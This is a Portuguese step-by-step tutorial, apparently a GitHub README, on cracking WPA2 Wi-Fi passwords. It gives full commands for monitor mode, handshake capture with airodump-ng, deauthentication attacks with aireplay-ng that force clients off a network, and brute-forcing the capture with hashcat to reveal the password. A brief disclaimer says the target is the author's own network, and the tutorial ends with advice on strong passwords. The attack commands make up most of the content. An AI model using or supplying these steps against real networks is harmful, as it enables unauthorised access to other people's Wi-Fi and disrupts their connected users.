










# TUTORIAL

## HACKEANDO REDES WI-FI WPA2

**OBS**:Para este tutorial estarei usando uma distribuição do Kali Linux. Esta distro já contém todos os softwares necessários que serão utilizados nesse passo-a-passo. Você pode utilizar qualquer outra distribuição Linux, porém precisará instalar cada ferramenta separadamente. TODOS OS COMANDOS DEVEM SER EXECUTADOS COMO ADMINISTRADOR. SE NÃO TIVER CERTEZA SE TEM OS PRIVILÉGIOS ADICIONE:

        sudo

NO INICIO DE CADA COMANDO.

**********************************

Vamos lá...

1. Você irá precisar um adaptador Wi-fi. Os notebooks já possuem conexão Wireless integrada, se você tiver um desktop precisará de um adaptador USB ou PCI.  

2. Abra um terminal, então digite:

        ifconfig
    serão listados todos os seus adaptadores de rede:  

    

    Se tudo estiver correto, seu adaptador Wireless deve aparecer como **wlan0** ou **wlan1**.  

3. O próximo passo é colocar esse adaptador Wi-fi no modo de monitoramento, para isso você deve desabilitar o adaptador primeiramente com:

        ifconfig wlan0 down

    Alterando para o modo monitoramento:

        iwconfig wlan0 mode monitor

    Você pode verificar se o modo do adaptador foi alterado digitando:

        iwconfig

    

    Agora você precisa habilitar o adaptador novamente:

        ifconfig wlan0 up  

4. Agora vamos utilizar o **airodump-ng** para listar as redes Wi-fi e escolher qual será atacada. Para isso digite o comando seguido da interface de monitoramento que acabamos de configurar:

        airodump-ng wlan0

    Você terá uma tela semelhante a esta:

      

    **OBS:** escondi os endereços da minha rede privada e seus respectivos nomes. A rede que nos interessa é a **Victim_Network**, ela foi gerada por mim somente para esse fim de teste. ESSE TUTORIAL É SOMENTE PARA FINS DIDÁTICOS, NÃO FAÇA ISSO NA REDE DE TERCEIROS.  

    Para o próximo passo vamos precisar do BSSID do nosso alvo que é C0:25:E9:77:AB:00 e o canal que é o 3.  

5. Agora o passo chave deste tutorial, capturar um “handshake”. É muito importante ressaltar que para conseguir um handshake da rede que estamos atacando é necessário que haja pelo menos 1 cliente conectado nela. O handshake do inglês significa “aperto de mão”. Ele acontece quando um cliente tenta se conectar ao router, para isso existe uma negociação de senha que é chamada de “handshake”. Se capturarmos o pacote onde esse dado está armazenado poderemos quebrar a senha Wi-fi.

    Para iniciar o monitoramento do tráfego em busca do handshake utilizamos o seguinte comando:

        airodump-ng -w handshake -c 3 -bssid C0:25:E9:77:AB:00 wlan0

    - **-w handshake** - indica o nome do arquivo gerado que conterá o handshake  

    - **-c 3** - indica o canal de frequência do alvo, no nosso caso é canal 3

    - **-bssid C0:25:E9:77:AB:00** - indica o MAC do nosso alvo, no nosso caso é: C0:25:E9:77:AB:00  

    Todos esses dados foram obtidos no passo anterior.  
    Tela de monitoramento:

    

    Como podemos ver na parte inferior da imagem, temos apenas 1 cliente conectado. Para esse ataque precisamos 1 ou mais clientes conectados. Você poderá encontrar vários. Quanto mais clientes estiverem conectados, maior a chance de alguém se desconectar e você capturar um “handshake”.
    Esse script deve ficar rodando até que um “handshake” seja capturado. Quando isso acontecer uma mensagem será exibida no cabeçalho da tela (verifique a imagem do passo posterior). 
    Porém, um “handshake” pode demorar horas para acontecer. Você não quer ficar esperando horas ou dias para conseguir o aperto de mão. Por isso vamos utilizar mais uma ferramenta do nosso arsenal.  

6. Podemos forçar o cliente conectado a se desconectar utilizando a ferramenta:

        aireplay-ng

    Como mencionado no passo anterior, você deve deixar o script de captura do handshake rodando, para isso vamos abrir outro terminal ao lado do mesmo.
    O comando para forçar os clientes do seu alvo a se desconectar é o seguinte:

        aireplay-ng --deauth 5 -a E0:25:E9:77:AB:00 wlan0

    Onde:  

    - **--deauth 5** - significa mandar 5 pacotes de desconexão.

    - **-a E0:25:E9:77:AB:00** - significa o alvo(roteador) que vamos atacar.

    - **wlan0** - nossa interface wireless que será responsável pelo ataque.

    **OBS:** Dessa forma os pacotes são enviados em broadcast para todos os dispositivos. É possível enviar a um dispositivo especifico adicionando o argumento **-c MAC ALVO**.  

    Os pacotes serão encaminhados 1 por vez como mostra a tela abaixo:

    

    Quando o Handshake for capturado, será exibida uma mensagem na tela de monitoramento: "WPA handshake: MAC DISPOSITIVO". Segue imagem:

    

    Será gerado um arquivo com extensão **.cap** que conterá o Handshake. Este arquivo será usado para quebrar a chave.  

      

7. Quebrando a chave com força bruta:

    Existem diversos meios de atacar chaves cifradas, dentre os quais você pode escolher o qual achar melhor. Neste tutorial vamos utilizar o **hashcat**. A ferramenta é bastante poderosa pois permite a computação utilizando CPU e GPU.
    Além disso, é multiplataforma, vou rodar a ferramenta no Windows pois estou utilizando uma máquina virtual do Kali Linux. Logo, não tenho acesso a GPU. Os comandos serão semelhantes nos 2 sistemas operacionais. Para Windows será *hashcat.exe*. Para Linux basta digitar *hashcat*.  

    Antes de tudo, ainda no linux, vamos converter o arquivo **.cap** para a extensão **.hccapx** que é a extensão utilizada pelo hashcat. Para isso digite:

        /usr/share/hashcat-utils/cap2hccapx.bin handshake-01.cap wpa2.hccapx

    onde:

    - **handshake-01.cap** - é nosso arquivo que contém o handshake.
    - **wpa2.hccapx** - é o arquivo que será gerado no formato para hashcat

    Temos:

    

    Agora, se você tiver Windows deve copiar este arquivo wpa2.hccapx para a pasta onde tem o executável do hashcat.exe no Windows. Lembrando que você só poderá executar o hashcat se estiver dentro da pasta da aplicação. Para isso, baixe o programa, abra a pasta onde está o executavel, segure pressionado a tecla "Shift" + "clique direito do mouse" e selecione a opção "Abrir terminal PowerShell aqui" (para Windows 10). Meu hashcat está na Área de trabalho como mostra a figura a seguir, junto com o arquivo que geramos no LINUX.

    

    O Próximo passo é rodar o comando (WINDOWS):

        hashcat.exe -I

    Ou no LINUX:

        hashcat -I

    Serão listados os processadores e GPUs (Placas de video) disponiveis para utilização:

    

    Vou utilizar a GTX 1060 para o cracking, observe que o ID dela é #1

    Para iniciar o cracking vamos rodar o seguinte comando(WINDOWS):

        ./hashcat.exe -d 1 -m 2500 -a 3 ./wpa2.hccapx ?d?d?d?d?d?d?d?d

    Ou no LINUX:

        hashcat -d 1 -m 2500 -a 3 wpa2.hccapx ?d?d?d?d?d?d?d?d

    Onde:

    - **-d 1** - Indica a utilização do dispositivo de ID #1. Como mencionei acima, será a GTX 1060.
    - **-m 2500** - Indica o tipo de criptografia que vamos quebrar. Nesse caso WPA2-PSK.
    - **-a 3** - Indica o tipo de ataque. Nesse caso será força bruta.
    - **wpa2.hccapx** - arquivo alvo.
    - **?d?d?d?d?d?d?d?d** - Cada "?d" desses indica um digito da senha. Nesse caso vamos atacar uma senha de 8 digitos.

    **OBS:**Existem vários tipos de ataques, como combinacional por exemplo onde você sabe uma parte da senha. Nesse caso utilizamos força bruta pois assumimos não fazer idéia da senha que queremos descobrir. Para outras váriações visite o site do hashcat: <https://hashcat.net>  

    O resultado segue:

    

    Como podemos ver, o processo termina quando é mostrado "Cracked" no status. Nesse caso o crack levou apenas 4 segundos como mostrado na parte inferior. Vale ressaltar que o tempo necessário pode ser de segundos até anos, isso vai depender do seu poder computacional e principalmente do tamanho da senha. Uma senha de somente números(que é bastante comum, acredite) leva menos tempo do que uma senha com caracteres alfanumérios e especiais.

    Para exibir a senha encontrada, digite o mesmo comando anterior com **--show** no fim do comando(WINDOWS):

        ./hashcat.exe -d 1 -m 2500 -a 3 ./wpa2.hccapx ?d?d?d?d?d?d?d?d --show

    Ou no LINUX:

        hashcat -d 1 -m 2500 -a 3 wpa2.hccapx ?d?d?d?d?d?d?d?d --show

    Será exibida a senha descoberta:

    

    Pronto! A senha da rede era **12345678**   

### Conclusões

Como mencionado anteriormente, a complexidade da senha influencia bastante na viabilidade da força bruta. Roteadores TP-LINK por exemplo, vem configurado de fábrica com um PIN de 8 dígitos como o do nosso exemplo, o que torna a senha muito fácil de ser quebrada. O que fica de aprendizado é que devemos utilizar senhas maiores e com caracteres especiais, letras maiusculas, minusculas e números que inviabiliza o processo de cracking.  

Espero que tenha ajudado!

Abraços!

#### Referências

- <https://www.kali.org>
- <https://hashcat.net>